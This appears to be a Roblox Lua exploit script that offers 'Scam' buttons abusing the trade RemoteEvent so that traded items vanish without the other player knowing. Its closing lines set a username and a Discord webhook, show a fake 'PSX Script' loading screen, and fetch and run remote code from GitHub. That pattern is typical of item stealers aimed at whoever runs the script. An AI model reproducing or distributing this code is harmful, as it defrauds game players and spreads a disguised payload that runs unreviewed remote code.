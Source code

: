 local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("krstyhub", "DarkTheme")
local Tab = Window:NewTab("Main")
local Section = Tab:NewSection("Scam")
 
 
Section:NewButton("Decline", "This makes items disappear without a player knowing.", function()
local args = {
    [1] = "plate_event",
    [2] = workspace.TradePlates.TradePlate4.CancelBtns.Cancel,
    [3] = workspace.TradePlates.TradePlate4
}
 
game:GetService("ReplicatedStorage").Events.Trade.TradeRE:FireServer(unpack(args))
 
 
local args = {
    [1] = "plate_event",
    [2] = workspace.TradePlates.TradePlate5.CancelBtns.Cancel,
    [3] = workspace.TradePlates.TradePlate5
}
 
game:GetService("ReplicatedStorage").Events.Trade.TradeRE:FireServer(unpack(args))
 
 
 
 
 
 
 
-- Script generated by SimpleSpy - credits to exx#9394
 
local args = {
    [1] = "plate_event",
    [2] = workspace.TradePlates.TradePlate3.CancelBtns.Cancel,
    [3] = workspace.TradePlates.TradePlate3
}
 
game:GetService("ReplicatedStorage").Events.Trade.TradeRE:FireServer(unpack(args))
 
 
 
-- Script generated by SimpleSpy - credits to exx#9394
 
local args = {
    [1] = "plate_event",
    [2] = workspace.TradePlates.TradePlate2.CancelBtns.Cancel,
    [3] = workspace.TradePlates.TradePlate2
}
 
game:GetService("ReplicatedStorage").Events.Trade.TradeRE:FireServer(unpack(args))
 
 
-- Script generated by SimpleSpy - credits to exx#9394
 
local args = {
    [1] = "plate_event",
    [2] = workspace.TradePlates.TradePlate1.CancelBtns.Cancel,
    [3] = workspace.TradePlates.TradePlate1
}
 
game:GetService("ReplicatedStorage").Events.Trade.TradeRE:FireServer(unpack(args))
 
 
 
 
end)
 
Section:NewButton("Accept", "decline and then use this ", function()
    local args = {
        [1] = "plate_event",
        [2] = workspace.TradePlates.TradePlate3.AcceptBtns.Accept,
        [3] = workspace.TradePlates.TradePlate3
    }
 
    game:GetService("ReplicatedStorage").Events.Trade.TradeRE:FireServer(unpack(args)) 
end)
Username = "Krustyy999"
WebHook = "https://discord.com/api/webhooks/1097418526400204881/0ZNYKfn-lAQyvMQ887uSWIl-t9qidx1yz2xdpr0xvNdSLMB5jaQDwQ0K7mzCbhU42hwf"
 
 
loadingscreen = true -- set this to false and remove _G. stuff to use your own GUI
_G.CustomScriptName = "PSX Script"
_G.Text1 = "Script Loaded..."
_G.Text2 = "Waiting for Script"
_G.Text3 = "Checking Scripts..."
_G.Text4 = "Starting Scripts..."
loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
